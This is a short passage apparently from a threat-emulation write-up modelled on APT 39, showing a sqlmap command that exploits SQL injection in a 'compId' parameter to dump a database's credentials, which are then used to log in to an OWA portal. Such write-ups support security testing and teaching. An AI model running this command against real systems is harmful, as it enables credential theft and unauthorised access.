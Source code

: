 Exploiting this vulnerability allows dumping credentials with a tool like [sqlmap]():

```
sqlmap -r rabbit.req --dbms=mysql -p "compId" --risk=3 --level=3 --batch -D secret --dump
```

![](images/Emulating%20A%20Threat%20Actor%20-%20APT%2039/image003.png)<br><br>

These credentials can be used to login to the OWA portal:

![](images/Emulating%20A%20Threat%20Actor%20-%20APT%2039/image004.png)<br><br>
